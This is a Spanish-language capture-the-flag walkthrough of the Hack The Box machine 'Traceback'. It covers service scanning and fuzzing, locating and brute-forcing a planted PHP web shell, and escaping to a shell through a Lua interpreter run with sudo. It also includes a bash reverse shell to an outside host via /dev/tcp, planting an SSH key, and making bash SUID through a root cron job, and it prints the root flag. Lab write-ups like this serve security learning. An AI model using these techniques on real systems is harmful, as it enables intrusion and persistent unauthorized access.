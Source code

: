10.10.10.181
------------

1. Enumeracion,  (usando el script en bash), tenemos el puerto 22(ssh) y 80(http) abiertos.
Escaneando luego con nmap
```console
└─$ nmap -sCV -T5 -p22,80 10.10.10.181
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
└─$ whatweb http://10.10.10.181
http://10.10.10.181 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.181], Title[Help us]
```
La web (puerto 80) parece que ha sido hackeada por un tal "- Xh4H -" y dice que ha dejado una puerta trasera.

En el codigo fuente no he encontrado la gran cosa. Voy a por el fuzzing de rutas:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.181/FUZZ
000045226:   200        44 L     151 W      1113 Ch     "http://10.10.10.181/"                               
000095510:   403        11 L     32 W       300 Ch      "server-status"  
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.181/FUZZ.php
000045226:   403        11 L     32 W       291 Ch      "http://10.10.10.181/.php"
```

Hay un .php pero es 403 forbidden. En el codigo fuente pone: 
```<!--Some of the best web shells that you might need ;)-->```
Poniendo eso en google sale esta [pagina](https://github.com/TheBinitGhimire/Web-Shells).
En el codigo fuente de esa pagina hay muchos nombres de shell, vamos a filtrarlos
```console
└─$ curl -s https://github.com/TheBinitGhimire/Web-Shells | grep "<td>" | grep -v "a href" > rutas
└─$ cat rutas | sed s/\<td\>//g |  awk '{print $1}' FS="<" | sponge rutas
└─$ wfuzz -c --hc=404 -t 200  -w ./rutas http://10.10.10.181/FUZZ
000000018:   200        58 L     100 W      1261 Ch     "smevk.php"
```
Viendo el codigo fuente de esa backdoor, es un script php que parece corto pero tiene una cadena en base64 
que al decodificarla sale otro script php de mas de 1000 lineas.

Esa backdoor pide usuario y contraseña. La peticion es tal que asi: 
```POST a smevk.php 'uname=test&pass=test&login=Login' con la cookie "PHPSESSID=7j3e4easretd87ei5haaicp0ok"```

Intente fuzzear la contraseña con el usaurio "Xh4H" con mi script FuzzDaPass pero no dio resultado, en cambio
admin si (el usuario por defecto que prueba).

```console
└─$ FuzzDaPass.py -t 'http://10.10.10.181/smevk.php' -f "uname:pass"  
Frase de error ej 'Incorrect username or password.'>   Wrong Password or UserName :(
Frase de error por intentos, ej 'Blacklist protection' >  test
   > Intento [33] 38.135.230.218	purple
   > Intento [34] 38.135.230.218	admin
[*] La contraseña para [admin] es [admin]
```
Tengo que avisar que  mi rockyuu (el diccionario que usa por defecto) esta ligeramente modificado. (ej la 
contraeña admin va mucho antes)

Pongo el comando de la reverse shell.

Enumeracion con mi script:
- Estamos con el usuario "webadmin"
- No hay capabilities ni SUIDS importantes
- Puedo ejecutar este script como root sin dar contraseña "/home/sysadmin/luvit"
- Nuestro usaurio ha ejecutado estos comandos:
```console
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```
Nuestro usuario tiene un nota:
```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

```console
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/sh")
$ whoami
sysadmin
$ bash -c 'bash -i >& /dev/tcp/10.10.14.7/444 0>&1'
```
Entre al sistema con ```nc -nlvp 444```. Tambien puse mi llave en su authorized keys:
```
sysadmin@traceback:~/.ssh$ nano authorized_keys
sysadmin@traceback:~/.ssh$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2...YzPjys= cucuxii@kali-xii
```
Con este usaurio, corremos el script de enumeracion otra vez y encontramos que:

```console
root        430  0.0  0.0  31320  3252 ?        Ss   09:32   0:00 /usr/sbin/cron -f
root       1381  0.0  0.0  58792  3216 ?        S    09:56   0:00  \_ /usr/sbin/CRON -f
root       1384  0.0  0.0   4628   804 ?        Ss   09:56   0:00      \_ /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
Es decir hacen una copia del archivo *update_motd.d* en /var/backups

```console
sysadmin@traceback:/etc/cron.d$ cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ ls
00-header  10-help-text  50-motd-news  80-esm  91-release-upgrade
```
En el 00-header pone ```echo "\nWelcome to Xh4H land \n"``` que es lo que nos salio al hacer shh.

Le añadi la linea ```chmod +s /bin/bash``` a 80-esm para hacer una bash SUID y ejecute esto antes de los 30
segundos.

```console
sysadmin@traceback:/etc/update-motd.d$ nano 80-esm 
sysadmin@traceback:/etc/update-motd.d$ bash -p     
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
c55e935719296d81297ab57e6dca6983
```

